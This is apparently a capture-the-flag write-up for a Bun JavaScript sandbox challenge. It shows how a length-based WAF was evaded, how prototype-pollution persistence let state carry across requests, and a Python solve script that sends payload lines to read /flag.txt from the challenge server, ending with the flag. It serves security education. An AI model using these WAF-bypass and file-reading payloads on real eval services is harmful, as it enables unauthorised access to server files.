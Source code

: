 ```yaml
---
ai_date: 2025-04-27 05:15:00
ai_summary: Bypassed WAF with input/output length restriction, used persistent prototype pollution, and leveraged async execution by bypassing Bun functions.
ai_tags:
  - waf-bypass
  - prototype-pollution
  - async-exec
created: 2024-07-27T20:24
description: Easiest ever RCE
points: 400
solves: 11
tags:
  - bun
updated: 2025-07-14T09:46
---
```


> I’ve created a super secure sinkless buntime, is it really secure?

## Analysis

### Bypass WAF

I tried using `Bun.file` etc to spawn shells but always encounter this weird error.

`WAF: Output Not allowed` or `WAF: Input Not allowed`.

I am not sure what caused them as they block innocent stuff but let others pass.

```js
/*eval*/
throw new Error(JSON.stringify(Bun.env))
// this fails

/*eval*/
// this runs

throw new Error(JSON.stringify(Bun.env))
// this runs

eval("1+1")
// this also runs
```

Eventually I realized that it worked on length, if input or output is longer than a set amount it will fail.

For input, I found it via comments.

```js
///////////////////////////////////////////////////    <- will fail
//////////////////////////////////////////////////     <- will work
```

For output, we can use `throw new Error(str)` to bypass the output restriction.

### Persistence

When trying to prototype pollute the server, I realized that my prototype pollutions are preserved.

This means that I am running code in the same context, that's good as I can store info in `global`. And don't have to somehow compress everything in one payload.
### Sync / Async

For some reason, await just wouldn't work at all.
So I decided to ditch Bun's functions and use node.js defaults. The `fs` module.

## Solve Script

IDK if the async import will cause the next lines to break, but since their effects persist, you can just run the script twice.

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = """
///////////////////////////////////////////////////
import("fs").then(fs=>global.fs=fs)
throw new Error(global.fs.readdirSync("/"))
global.flag=global.fs.readFileSync("/flag.txt")
throw new Error(global.flag)
""".strip()

print(payload)
print()
for l in payload.splitlines():
    r = requests.post("https://8dd1742bbfecae1ec5685380.deadsec.quest/run", json={"code": l})
    print(r.text)

"""
bun 1.1.20 (later than latest version but not related to the challenge)
"""
```

```flag
DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}
```